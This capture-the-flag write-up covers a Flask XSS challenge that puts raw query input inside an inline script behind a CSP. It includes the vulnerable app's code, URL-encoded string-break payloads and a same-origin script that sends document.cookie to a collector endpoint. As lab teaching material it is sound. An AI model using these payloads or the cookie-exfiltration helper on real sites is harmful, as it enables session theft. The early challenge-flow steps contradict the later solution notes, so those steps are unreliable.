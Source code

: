 # XSS\_CSP – Personalised Write‑up

**Category:** Web – 150 pts
**Flag:** `flag{xss_csp}`

---


## Challenge Flow

1. The application only has a single point of `GET /?q=<value>`
2. Using `/?q=test` prints test on the page and in the console, showing q lands inside a `<script>` block
3. Looking at the code shows it only escapes `& < > "` so we can break the JS string with `";` because the single quote is still allowed
4. The server also sends `default-src 'self'; script-src 'self'` so inline code is blocked but we can load a new `<script src=...>` from the same origin, pointing it at **/c**
5. Build the payload of  `";</script><script src=/c?c='+document.cookie></script>` then URL‑encode it and call `/?q=%22%3B%3C/script%3E<script%20src=/c?c='+document.cookie></script>`
6. Visiting that URL sends a request to **/c?c=flag{xss\_csp}** and the server reveals the flag{xss_csp}

---









## How Difficulty Was Increased and Defense Mechanisms

I increased the difficulty that blocked the obvious script injections by using manual html escaping, this forces the solver to actually look at the website precisely. I also increased the difficulty by adding a chain of different elements that forced solvers to use string‑break, CSP bypass,  same‑origin script instead of using a one-liner.






## Indepth Build and Solution Notes

### Build Section

This CTF challenge is a tiny flask web app with 3 routes of 
- 
**What it is.**
A tiny Flask app with three routes: 
- `GET /` — renders a search page and inlines the user’s `q` value inside a `<script>` block.
- `GET /admin` — sets the flag as a cookie: `flag=flag{xss_csp}; Path=/; Secure`
- `GET /c` — “collector” that logs whatever arrives in the c query param to the server console.

Each response adds a `Content-Security-Policy: default-src 'self'; script-src 'self'`. This is because it blocks incline scripts and allows external scripts. 





**CSP.**
Every response adds `Content-Security-Policy: default-src 'self'; script-src 'self'`.
This **blocks inline scripts** (no `'unsafe-inline'`), but **allows external scripts** loaded from the same origin.

**Where the bug is.**

* The page escapes `q` **for the input value** via `safe = ...replace(...)`, but then **injects raw `q` into JavaScript**:

  ```python
  "<script>"
    "let query = \"" + q + "\";"
    "console.log('User searched:', query);"
  "</script>"
  ```

  Because only `& < > "` were escaped (for HTML), the JavaScript string can be **broken** with `"` (double‑quote) and a `;`. Example raw payload fragment: `";alert(1)//`.

* However, CSP forbids inline execution, so a one‑liner `alert(1)` **won’t run**. We must:

  1. **Break the JS string**, then **break out of the inline `<script>`**, and
  2. **Inject a new external `<script src=...>`** that the CSP will allow (same origin).

**Cookie/transport detail.**
`/admin` marks the cookie **Secure** → browsers only send it over **HTTPS**. For a realistic challenge, you should run Flask with TLS:

```python
app.run(host="0.0.0.0", port=5000, debug=True, ssl_context="adhoc")
```

(If you can’t use HTTPS locally, drop `; Secure` temporarily during testing, but keep it for the challenge.)

**External helper (recommended).**
Expose a same‑origin script that exfiltrates cookies using a benign request (allowed by CSP):

```python
@app.route("/x.js")
def xjs():
    return (
        "new Image().src='/c?c='+encodeURIComponent(document.cookie);",
        200,
        {"Content-Type": "application/javascript"},
    )
```

*Why this design increases difficulty.*

* The **manual HTML escaping** hides obvious HTML‑context XSS but leaves a **JS‑string context** open.
* **CSP** removes inline execution paths, forcing solvers to understand **context switches** (JS string → HTML end‑script → external script) and **same‑origin policy**.
* Marking the cookie **Secure** forces correct **transport** (HTTPS) or a conscious testing change.

---

### Solution Section

**Goal:** Read the `flag` cookie and send it to `/c` so it appears in server logs (`Stolen: ...`).

#### 0) Prep

* Run the server with TLS so Secure cookies work:

  ```python
  app.run(host="0.0.0.0", port=5000, debug=True, ssl_context="adhoc")
  ```
* Visit **`https://127.0.0.1:5000/admin`** to set the cookie (allow the self‑signed cert warning).

#### 1) Plan the injection

* Context is **inside** `let query = "<HERE>";` → break the string with `"` then `;`.
* Close the current `<script>` with `</script>`.
* Insert an **external** `<script src="/x.js"></script>` (CSP allows `'self'`).
* The external `/x.js` runs and executes:

  ```js
  new Image().src='/c?c='+encodeURIComponent(document.cookie);
  ```

  which issues a GET to `/c?c=<cookie>`, and the server prints `Stolen: ...`.

#### 2) Payload (URL‑encoded)

```
/?q=%22%3B%3C%2Fscript%3E%3Cscript%20src%3D%2Fx.js%3E%3C%2Fscript%3E
```

**Decoded payload** (for understanding):

```html
";</script><script src=/x.js></script>
```

#### 3) Execute and observe

* Visit: **`https://127.0.0.1:5000/?q=%22%3B%3C%2Fscript%3E%3Cscript%20src%3D%2Fx.js%3E%3C%2Fscript%3E`**
* Server console log shows:

  ```
  Stolen: flag{xss_csp}
  ```

---

#### Why simpler payloads failed

* **Inline JS** like `";fetch('/c?c='+document.cookie)//` is **blocked by CSP** (`script-src 'self'`).
* A raw `<script src="/c?c='+document.cookie">` **doesn’t evaluate** `'+document.cookie'` (it’s an HTML attribute, not JS). You need **actual script execution** to compute `document.cookie` and build the URL.
* Using **HTTPS** matters because the cookie is **Secure**; over HTTP, the browser may not set/send it, and you’ll see nothing in `/c`.

---

#### Alternative demo modes (for local testing only)

* **Temporarily drop `Secure`** on the cookie:

  ```python
  resp.headers['Set-Cookie'] = "flag=" + FLAG + "; Path=/"
  ```

  (Works over HTTP, but less realistic.)

* **Temporarily allow inline** (faster, less realistic):

  ```python
  resp.headers['Content-Security-Policy'] = "default-src 'self'; script-src 'self' 'unsafe-inline'"
  ```

  Then a one‑liner like:

  ```
  /?q=%22%3Bfetch('/c?c='%2Bdocument.cookie)//
  ```

  will work. Restore CSP afterward.







---

## Related & Future Variants

- Stored XSS where the script is permanently stored on the vulnerable web server, often in a database, this can combine with sqli
- DOM-based XSS where the attack occurs entirely within the client-side code.


---

### Sources

* **MDN – Content Security Policy** https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
* **PortSwigger – DOM‑based XSS** https://portswigger.net/web-security/cross-site-scripting/dom-based
* **PayloadsAllTheThings – XSS** https://github.com/swisskyrepo/PayloadsAllTheThings#xss-cross-site-scripting
